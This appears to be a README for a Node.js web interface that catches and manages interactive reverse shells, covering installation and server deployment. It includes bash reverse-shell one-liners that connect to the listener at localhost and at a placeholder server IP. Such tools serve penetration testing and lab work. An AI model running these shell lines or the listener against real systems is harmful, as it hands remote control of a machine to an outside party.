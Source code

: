 # Reverse Shell Online

Fully interactive TTY Reverse Shell on web interface

- Can handle multiple session
- Multi-user support
- Download/Upload feature

# Demo

<img src="example.gif">

# Install locally

Install dependendies: ```npm i```

Start project with ```npm start```

ENV Vars:
```
PORT_HTTP=3000
PORT_TCP=1337

Example to start server on HTTP: 8080 & TCP: 6666
PORT_HTTP=8080 PORT_TCP=6666 node index.js
```

Access HTTP server: ```http://localhost:8080```

Example command to spawn a shell:

```sh -i >& /dev/tcp/127.0.0.1/6666 0>&```

# Deploy on a server

## Simple install

```sh
git clone https://github.com/Eteckq/simplershell.git;
npm i;
PORT_HTTP=5555 PORT_TCP=6666 SERVER_ADDRESS=YOUR_SERVER_ADDRESS node index.js
```

Env var ```SERVER_ADDRESS``` is facultative

Then, you need to allow configured port (5555 & 6666 here)

(with ufw)
```
sudo ufw allow 5555,6666
```

And access it with http://YOUR_SERVER_IP:5555

You can test your deployement by spawning a shell:
```
sh -i >& /dev/tcp/YOUR_SERVER_IP/6666 0>&
```

## Behind a reverse proxy

ask me if you want, i'm not gonna write install steps here